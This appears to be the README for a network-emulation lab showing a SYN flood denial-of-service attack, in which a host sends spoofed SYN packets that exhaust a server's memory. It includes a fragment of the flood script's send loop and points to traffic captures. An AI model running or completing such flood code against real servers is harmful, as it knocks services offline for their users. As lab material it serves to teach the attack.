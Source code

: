 # SYN-FLOOD ATTACK POISONING

NETWORK TOPOLOGY

<div align="center">
  <img src="https://github.com/mariocuomo/kathara-testing/blob/main/labs/syn_flood/schema.png" width="800">
</div>


Cindy sends continuous TCP syn packet to the server spoofing its ip address.<br>
Server opens connections for each one and leaks all its memory.

Cindy's malicious script is located in _/var/script/synflood.c_

```C
while true
	sendto(s,  /* our socket */
	            datagram,   /* the buffer containing headers and data */
	            iph->tot_len,  /* total length of our datagram */
	            0,    /* routing flags, normally always 0 */
	            (struct sockaddr *) &sin,  /* socket addr, just like in */
	            sizeof (sin)
	         )/* a normal send() */
do
```


Simple editing of [@SilverMoon](https://www.binarytides.com/syn-flood-dos-attack/) version.


Using _tcpdump_ and _wireshark_
<div align="center">
  <img src="https://github.com/mariocuomo/kathara-testing/blob/main/labs/syn_flood/sniffing.png" width="800">
</div>



